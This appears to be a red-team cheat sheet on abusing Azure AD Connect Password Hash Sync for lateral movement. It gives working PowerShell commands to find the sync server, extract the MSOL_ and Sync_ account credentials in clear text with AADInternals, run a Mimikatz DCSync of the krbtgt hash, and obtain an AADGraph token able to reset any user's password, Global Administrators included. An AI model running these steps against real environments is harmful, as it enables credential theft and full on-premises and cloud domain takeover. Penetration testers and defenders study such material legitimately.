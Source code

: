 #### PHS

It synchronizes users and a hash of their password hashes (not clear-text or original hashes) from on-prem AD to Azure AD. Built-in security groups are not synced.

By default, password expiry and account expiry are not reflected in Azure AD. That means a user whose on-prem password is expired (not changed) can continue to access Azure resources using the old password.

* The on-prem created account `MSOL_<installationidentifier>` has DCSync rights on the AD
* An account named `Sync_<name of on-prem ADConnect Server>_installationidentifier` is created in Azure AD. It can reset ANY user password **in Azure AD**.

Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed. It is possible to extract them in clear-text with admin privileges on the server.

**Lateral Movement - On-Prem Dominance**

To find the server where Azure AD Connect is installed in the AD, with the AD Module, or from Azure AD:

```powershell
#AD Module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl

#From Azure AD
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

When the server is compromised, extract the creds with **AADInternals**, and DCSync:

```powershell
#Check if AD Connect is well installed
Get-ADSyncConnector

Get-AADIntSyncCredentials
```

```powershell
runas /netonly /user:defeng.corp\MSOL_782bef6aa0a9 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.corp /dc:dc.domain.corp"'
```

**Lateral Movement - On-Prem to Cloud**

With the _Sync_ account's creds, it is possible to reset the password of everyone, even the Global Administrators.

With the creds, request an access token for AADGraph:

```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("Sync_<name of on-prem ADConnect Server>_installationidentifier@corp.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```
